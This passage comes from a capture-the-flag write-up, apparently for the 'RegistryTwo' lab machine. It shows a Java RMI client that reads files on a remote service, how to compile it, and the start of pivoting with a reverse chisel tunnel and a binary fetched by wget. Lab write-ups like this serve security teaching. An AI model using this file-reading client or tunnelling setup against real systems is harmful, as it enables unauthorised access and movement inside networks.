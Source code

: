 ```java

        System.out.println("--- Files in " + vhost + " ---");

        for (AbstractFile file : files) {
            System.out.println(file.getName());
        }
    }

    private static void viewFile(FileService fileService, Scanner scanner) throws RemoteException, IOException {
        System.out.print("Enter Vhost: ");
        String vhost = scanner.nextLine();

        System.out.print("Enter File Path: ");
        String filePath = scanner.nextLine();

        byte[] content = fileService.view(vhost, filePath);

        if (content != null) {
            System.out.println("--- File Content ---");
            System.out.println(new String(content));
        } else {
            System.out.println("Failed to retrieve file content.");
        }
    }
}
```

Now we have our file, the next step is to compile it. Using the following `javac` command its possible to compile our java file into a class. If everything went well you should get the following output.

```bash
javac -cp src src/com/htb/hosting/rmi/FileServiceClient.java
```

![Compilation success](/assets/img/RegistryTwo/RegistryTwo_26.png)

Now we have our new CLI tool that we can use to interact with the Java RMI with. Next up we need to setup some proxy chains on the machine to make it possible for us to reach the machine. I'll use chisel for this. First start up the chisel server like so:

```bash
chisel server --port 5000 --reverse
```

Transfer the chisel binary to the container. I used wget in combination with our web server to do this.
